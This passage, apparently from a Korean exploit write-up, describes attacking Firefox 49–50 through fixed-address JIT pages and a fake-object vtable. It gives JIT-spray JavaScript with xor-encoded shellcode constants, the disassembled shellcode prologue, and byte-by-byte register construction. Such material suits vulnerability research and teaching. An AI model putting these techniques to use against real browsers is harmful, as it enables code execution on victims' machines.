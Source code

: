 ```
BaseAddress:       27fb0000
AllocationBase:    27fb0000
AllocationProtect: 00000004  PAGE_READWRITE
RegionSize:        00001000
State:             00001000  MEM_COMMIT
Protect:           00000020  PAGE_EXECUTE_READ
Type:              00020000  MEM_PRIVATE
```

브라우저의 힙 매커니즘이 크게 달라지지 않는다면 버전에 의존하지 않고 위와 같은 주소에 고정적으로 할당되는 것을 확인할 수 있었다. 즉, 49.0 ~ 50.0.2 버전에서는 위와 같은 주소에 할당이 된다는 것이다. 고로, fake object 의 vtable 포인터를 위의 수 많은 JIT 페이지들의 주소로 설정하면 원하는 쉘코드를 실행할 수 있게 된다.

## JIT Shellcode
JIT spray는 요즘의 브라우저에선 적용되지 않는 기법이지만 firefox는 2015년까지 꽤 안정적으로 JIT spray를 이 용한 익스플로잇이 통했다. 2016년 4월부터 firefox에도 [jit hardening](https://bugzilla.mozilla.org/show_bug.cgi?id=677272) 보호기법들이 적용되었지만, 여전히 고정적인 주소에 jit page들이 할당되는 취약점은 존재했다. JIT 컴파일러에서 사용하는 페이지들은 컴파일되는 과정에서 코드가 생성되기 때문에 RWX 권한을 가 지고 있었지만, 요즘은 W^X 보호기법을 지키고 있다. 이전처럼 RWX 권한이 할당된 페이지의 경우에는 stack pivoting 과정을 통해 손쉽게 쉘코드를 작성할 수 있었지만, 요즘 버전의 Firefox는 최대 3바이트씩 명령어를 사용 하며 익스플로잇을 해야 한다. JIT spray의 기본은 [35 $$] xor eax, $$ 명령어를 [3c 35] cmp al, 35h 명령어로 변형하여 원하는 쉘코드를 실행시키는 것이다. 이를 위해선 4바이트씩 쉘코드를 조합해야하며 이때 상위 바이트는 0x3c 여야 한다. 기본적인 prototype은 다음과 같다.
```
a = a|0;
a = a ^ 0x2711003c;
a = a ^ 0x2711003c;
a = a ^ 0x2711003c;
a = a ^ 0x2711003c;
```
위는 `call [edx]`를 할 때, 쉘코드 시작부분으로 설정하기 위한 것인데, 시작부분은 다음과 같아야 한다.
```
2711003c 90              nop
2711003d 90              nop
2711003e 90              nop
2711003f 3c35            cmp     al,35h
27110041 33c0            xor     eax,eax
27110043 90              nop
27110044 3c35            cmp     al,35h
27110046 b030            mov     al,30h
27110048 90              nop
27110049 3c35            cmp     al,35h
2711004b 648b00          mov     eax,dword ptr fs:[eax]
2711004e 3c35            cmp     al,35h
27110050 8b400c          mov     eax,dword ptr [eax+0Ch]
27110053 3c35            cmp     al,35h
```
그 다음에 본격적으로 작성한 쉘코드를 쓰면 되는데, 이때, JIT shellcode의 원칙은 다음과 같다.

1. 상위 바이트는 0x7f보다 작아야 한다. 만약, 크게 되면 xor 명령어가 꼬이게 되어 원하는 명령어를 호출할 수 없게 된다.

2. 원하는 4바이트의 값을 쓰고 싶은경우 shl 명령어를 사용하여 한 바이트씩 작성하면 된다. 만약, edi 레지스터에 0x2711103c 값을 쓰고 싶은 경우 다음과 같다.

```
a = a ^ 0x3ccccccc;
a = a ^ 0x3c90ff31;  // xor edi, edi

a = a ^ 0x3c27c783;  // add edi, 27h
a = a ^ 0x3c08e7c1;  // shl edi, 8

a = a ^ 0x3c11c783;  // add edi, 11h
a = a ^ 0x3c08e7c1;  // shl edi, 8

a = a ^ 0x3c10c783;  // add edi, 10h
a = a ^ 0x3c08e7c1;  // shl edi, 8

a = a ^ 0x3c00c783;  // add edi, 3ch
```